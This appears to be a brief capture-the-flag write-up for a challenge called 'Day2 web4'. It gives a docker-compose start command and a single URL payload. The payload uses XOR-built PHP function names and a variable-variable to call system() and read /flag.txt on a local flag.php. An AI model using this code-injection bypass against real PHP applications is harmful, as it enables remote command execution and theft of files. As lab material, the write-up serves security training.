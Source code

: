# Day2 web4

```
docker-compose up -d
```


payload
```
http://127.0.0.1:8086/flag.php?search=$pi=(is_nan%5E(6).(4)).(tan%5E(1).(5));$pi=$$pi;$pi%7B0%7D($pi%7B1%7D)&0=system&1=cat%20/flag.txt
```
